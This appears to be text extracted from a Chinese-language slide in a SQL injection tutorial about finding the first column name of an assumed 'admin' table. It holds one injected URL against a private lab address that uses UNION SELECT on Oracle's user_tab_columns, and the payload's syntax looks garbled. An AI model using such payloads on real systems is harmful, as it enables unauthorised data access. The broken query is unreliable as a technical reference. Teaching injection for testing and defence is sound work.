

# 获取第一个列名
假设我们得到管理员表名为：admin
获取第一个列名EMPLOYEE_ID

http://192.168.1.210:8080/SqlInject/SqlTest.jsp?id=-100 union select null,(select column_name from user_tab_columns where table_name='admin' and rownum=1),4,5,6 from dual,null,null,null,null,null,null,null,null,null from dual